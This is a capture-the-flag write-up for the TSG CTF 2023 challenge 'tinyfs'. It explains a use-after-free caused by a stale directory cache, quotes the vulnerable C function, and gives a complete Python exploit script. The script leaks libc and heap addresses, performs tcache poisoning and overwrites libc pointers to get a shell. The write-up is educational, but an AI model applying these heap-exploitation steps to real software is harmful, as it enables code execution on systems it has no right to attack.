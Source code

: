 # TSG CTF 2023 - pwn/tinyfs

## Solution

When you command `cd <absolute path>`, the directory (`MyFolder*`) is cached using the path as the key. If the path is already cached, it will navigate to the directory without scanning the filesystem.

When `delete_item` function deletes a directory, it frees all files (`MyFile*`) that are children of the directory. This also deletes the cache entry for the directory, but not the entries for the subdirectories.

```c

void delete_item(char* name) {
    VALIDATE_NAME(name);

    for (int i = 0; i < CONTENT_MAX; i++) {
        if (pwd->folders[i] && !strcmp(pwd->folders[i]->name, name)) {
            for (int j = 0; j < CONTENT_MAX; j++) {
                if (pwd->folders[i]->files[j]) {
                    free(pwd->folders[i]->files[j]);
                }
            }
            delete_cache(pwd->folders[i]);
            pwd->folders[i] = NULL;
            puts("The folder has been deleted.");
            return;
        }
    }

    for (int i = 0; i < CONTENT_MAX; i++) {
        if (pwd->files[i] && !strcmp(pwd->files[i]->name, name)) {
            free(pwd->files[i]);
            pwd->files[i] = NULL;
            puts("The file has been deleted.");
            return;
        }
    }

    puts("The item is not found.");
}
```

Thus, we can navigate to the deleted subdirectory as follows:

```
mkdir A
cd A
touch x
mkdir B
cd /A/B/
cd /
rm /A     # x is freed
cd /A/B/
```

We can also navigate to the parent directory.

```
cd ..
```

Now we can access the freed files in the directory `A` by `cat` or `mod`. The remaining work is the same as standard heap challenges: leak libc's base address and safe-linking mask, do tcache poisoning, and rewrite some function pointers to get the shell.

## Exploit

```python
sc.after("$").sendline("mkdir A")
sc.after("$").sendline("cd A")

for i in range(8):
    sc.after("$").sendline(f"touch {i}")
    sc.after("$").sendline(f"mod {i}")
    sc.after("Write Here >").sendline("X" * 32)

sc.after("$").sendline("cd ..")
sc.after("$").sendline(f"touch x1")
sc.after("$").sendline("cd A")


sc.after("$").sendline("mkdir B")
sc.after("$").sendline("cd /A/B")
sc.after("$").sendline("cd /")
sc.after("$").sendline("rm A")
sc.after("$").sendline("cd /A/B")
sc.after("$").sendline("cd ..")

sc.after("$").sendline("ls")

# libc leak

sc.after("$ ").sendline("cat 0")

leak = sc.recv_before(b"\n$")

libc_offset = util.u2i(leak) - 0x7fb69fbf6ce0
libc_base = 0x00007fb69fa00000 + libc_offset
print(f"{libc_base=:#x}")

# heap leak

sc.after("$ ").sendline("cat 7")
leak = sc.recv_before(b"\n$")

ptr_mask = util.u2i(leak) << 12
print(f"{ptr_mask=:#x}")

sc.after("$ ").sendline("cat 5")
leak = sc.recv_before(b"\n$")

ptr_6 = util.u2i(leak) ^ (ptr_mask >> 12)
print(f"{ptr_6=:#x}")

# tcache poisoning

shift = 4

sc.after("$ ").sendline(f"mod 6")
sc.after("Write Here >").sendline(util.u64((libc_base + 0x1f6000 + 8 * shift) ^ (ptr_mask >> 12)))

for i in range(6):
    sc.after("$").sendline(f"touch y{i}")

sc.after("$").sendline(f"touch z")
sc.after("$").sendline(f"mod z")

ptrs = [0x40 + i for i in range(0x200 // 8 - 1)]

ptrs[0x15] = 0x00052f4f + libc_base
ptrs[0x1b] = 0x00153f54 + libc_base
ptrs[0x21] = 0xea953 + libc_base
ptrs[0x1d] = 0x4e8a0 + libc_base

sc.after("Write Here >").sendline(util.u64(*ptrs[shift:][:0x100 // 8 - 1]))
```

## Flag

```
TSGCTF{de1eting_fi1e5_recur5ive1y_5ave5_y0ur_1ife}
```